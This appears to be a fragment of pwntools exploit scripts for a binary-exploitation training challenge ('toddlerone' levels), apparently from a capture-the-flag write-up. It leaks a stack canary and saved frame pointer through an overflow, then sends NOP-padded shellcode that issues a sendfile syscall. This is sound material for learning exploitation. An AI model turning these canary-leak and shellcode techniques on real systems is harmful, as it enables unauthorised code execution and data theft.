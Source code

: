 overflow_size=0x70
p.sendlineafter("Payload size: ",str(overflow_size))

payload=asm(shell_code,arch='amd64')
#print(len(payload))
shell2_len=len(payload)
payload+=b'\x90'*(0x30-shell2_len)+p64(0x3291bcb85c49984)+b'\x90'*0x10+p64(cc)+b'\x90'*0x18+p64(stack_addr)
p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 5.1
#劫持地址不正确
from pwn import *

p=process(['/challenge/toddlerone_level5.1'])

overflow_size=0x29
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x18-6)+b'REPEAT'+p64(0x9c0cc3e6c5c9191b)+b'\x90'*(0x8)
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")

p.recvuntil("\n",drop=1)
recv_data=p.recv(7)
can=b'\x00'+recv_data
cc=u64(can)
print(hex(cc))

recv_data=p.recv(6)
recv_data=recv_data+b'\x00\x00'
main_rbp=u64(recv_data)
print(hex(main_rbp))
start_stack=main_rbp-0x1040-(0x90*3)-0x30+2

overflow_size=0x20
p.sendlineafter("Payload size: ",str(overflow_size))

shell2='''
mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall
'''

payload=b'REPEAT'
payload+=asm(shell2,arch='amd64')
shell2_len=len(payload)
print(shell2_len)
payload+=b'\x90'*(0x20-shell2_len)
p.sendlineafter("bytes)!\n",payload)
